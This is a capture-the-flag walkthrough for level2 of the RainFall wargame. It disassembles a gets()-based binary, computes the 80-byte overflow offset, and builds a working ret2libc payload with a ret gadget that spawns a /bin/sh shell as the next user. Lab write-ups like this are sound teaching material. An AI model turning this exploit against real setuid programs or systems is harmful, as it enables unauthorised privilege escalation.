 # Walkthrough

I noticed a binary file named 'level2' while listing the files in my home directory. In order to understand it better, I used gdb to disassemble the main function.

```c
Dump of assembler code for function main:
 0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

I found that the main function calls a p() function, which checks if the return function equals 0xb0000000 by using an operator with 0xb0000000. If true, it prints the address and exits. If false, it reads from the input and displays it, then duplicates it.

```c
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```
 I discovered that the 'gets' function used in the program is highly dangerous as it can cause a buffer overflow, so I tested it by inputting a long string, which resulted in a segfault. 
 

```c
(gdb) run
Starting program: /home/user/level2/level2 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

To successfully execute the program and return to a new address of the system function while passing the "/bin/sh" parameter, I needed to determine the offset between the buffer and the return address. I found that the return address was located at $ebp+0x4, and the start of the buffer was at $ebp-0x4c. Therefore, I calculated the offset as follows:
 
 ```
 (gdb) x/wx $ebp+0x4
 0xbffff62c: 0x0804854a
 (gdb) x/wx $ebp-0x4c
 0xbffff5dc: 0x00000001
 (gdb) p 0xbffff62c - 0xbffff5dc
 $1 = 80
 ```

Next, I needed to locate the address of the system function and determine how to pass the "/bin/sh" parameter to it. To achieve this, I followed these steps:

```c
(gdb) p system
$2 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) info proc mappings
process 3465
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

 However, there was a condition that checked if the and operator between the return address and the 0xb0000000 value equaled to 0xb0000000. The address of the system function starts with 0xb, so this condition would always be true, causing the program to exit. 
 
To fill the buffer with the necessary information, I used Python to generate a string consisting of As that would overwrite the return address with the address of the system function. Additionally, I included randomly generated data for the return address of the system() function and the address of the "/bin/sh" parameter.
```sh
level2@RainFall:~$ python2 -c  'print("A" * 80 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])' > /tmp/flag
level2@RainFall:~$ cat /tmp/flag  | ./level2 
(0xb7e6b060)

```
 
 To solve this issue, I needed to overwrite the return address with the address of the return address of the p() function `(0x0804853e)`. Then I overwrote the next bytes with the address of the system() call `(0xb7e6b060)`, followed by randomly filled data`(BBBB)`, and the last byte with the address of the "/bin/sh" parameter `(0xb7f8cc58)`.

```sh
level2@RainFall:~$ python2 -c  'print("A" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])' > /tmp/flag
level2@RainFall:~$ cat /tmp/flag - | ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`��BBBBX���
whoami
level3
cd ../level3
ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3

```